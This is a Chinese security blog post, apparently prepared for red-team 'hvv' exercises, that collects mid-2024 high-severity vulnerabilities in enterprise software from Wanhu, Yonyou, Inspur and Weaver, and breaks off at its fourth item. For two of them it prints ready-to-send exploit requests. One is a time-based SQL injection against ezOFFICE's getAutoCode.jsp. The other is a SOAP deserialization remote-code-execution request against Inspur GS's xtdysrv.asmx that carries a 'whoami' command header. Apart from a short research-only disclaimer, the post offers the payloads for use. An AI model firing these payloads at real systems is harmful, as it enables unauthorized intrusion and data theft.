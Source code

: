 #  hvv漏洞合集   
泾弦安全  泾弦安全   2024-08-05 09:50  
  
**想第一时间看到我们的大图推送吗？赶紧把我们设为星标吧！这样您就不会错过任何精彩内容啦！感谢您的支持！🌟**  
  
**免责声明**  
  
       文章所涉及内容，仅供安全研究教学使用，由于传播、利用本文所提供的信息而造成的任何直接或间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
  
**2024.7.22-2024.8.2高危漏洞合集**  
  
1.万户ezOFFICE协同管理平台 getAutoCode SQL注入漏洞  
  
攻击路径：/defaultroot/platform/custom/customizecenter/js/getAutoCode.jsp  
  
poc：  
<table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><section style="line-height: normal;"><span style="font-size: 12px;">GET /defaultroot/platform/custom/customizecenter/js/getAutoCode.jsp;.js?pageId=1&amp;head=2%27+AND+6205%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2898%29%7C%7CCHR%2866%29%7C%7CCHR%2890%29%7C%7CCHR%28108%29%2C5%29--+YJdO&amp;field=field_name&amp;tabName=tfield HTTP/1.1</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host: </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Encoding: gzip, deflate</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Language: zh-CN,zh;q=0.9</span></section><section style="line-height: normal;"><span style="font-size: 12px;">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36</span></section></td></tr></tbody></table>  
2.用友NC UserAuthenticationServlet 反序列化漏洞  
  
攻击路径：/servlet/~uapim/nc.bs.pub.im.UserAuthenticationServlet  
  
poc:  
文章后附有  
  
3.浪潮GS企业管理软件 xtdysrv.asmx 远程代码执行漏洞  
  
攻击路径：/cwbase/service/rps/xtdysrv.asmx  
  
poc:  
<table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><section style="line-height: normal;"><span style="font-size: 12px;">POST /cwbase/service/rps/xtdysrv.asmx HTTP/1.1</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host: </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Type: text/xml; charset=utf-8</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Length: 16398</span></section><section style="line-height: normal;"><span style="font-size: 12px;">SOAPAction: &#34;http://tempuri.org/SavePrintFormatAssign&#34;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">cmd: whoami</span></section><section style="line-height: normal;"><br/></section><section style="line-height: normal;"><span style="font-size: 12px;">&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">&lt;soap:Envelope xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34; xmlns:xsd=&#34;http://www.w3.org/2001/XMLSchema&#34; xmlns:soap=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34;&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">  &lt;soap:Body&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">    &lt;SavePrintFormatAssign xmlns=&#34;http://tempuri.org/&#34;&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">      &lt;psBizObj&gt;string&lt;/psBizObj&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">      &lt;psLxId&gt;string&lt;/psLxId&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">&lt;psLxMc&gt;string&lt;/psLxMc&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">      &lt;printOpByte&gt;恶意序列化数据&lt;/printOpByte&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">      &lt;printInfoByte&gt;&lt;/printInfoByte&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">    &lt;/SavePrintFormatAssign&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">  &lt;/soap:Body&gt;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">&lt;/soap:Envelope&gt;</span></section></td></tr></tbody></table>  
4.泛微e-cology9 /services/WorkPlanService 前台SQL注入漏洞  
  